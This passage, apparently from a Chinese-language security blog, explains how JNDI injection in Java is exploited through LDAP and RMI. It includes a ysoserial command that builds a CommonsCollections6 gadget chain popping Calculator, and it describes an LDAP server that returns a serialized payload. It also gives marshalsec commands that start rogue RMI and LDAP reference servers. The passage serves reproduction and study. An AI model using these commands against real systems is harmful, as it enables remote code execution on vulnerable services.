
在这里面最终会进入到readObject()方法。
利用
假设目标系统中存在着有漏洞的CommonsCollections库，那么首先可以利用ysoserial生成一个利用链，这里选择了commonscollections:3.2.1以及CommonsCollections6。
1 | java -jar ysoserial.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64 |

最终的LDAP服务器与前面比较，在sendResult时，对发送的Entry添加javaSerializedData属性，属性值为序列化的payload。

在复现时，为了避免codebase的影响，将其他属性注释掉了。最终在客户端lookup时弹出了计算器。
利用工具
在实际遇到这样的漏洞时，直接利用工具会比较方便。
marshalsec
marshalsec可以很方便地启动一个LDAP/RMI Server
rmi
1 | java -cp marshalsec.jar marshalsec.jndi.RMIRefServer http://ip:port/package/#Class 1099 |
ldap
1 | java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://ip:port/package/#Class 1389 |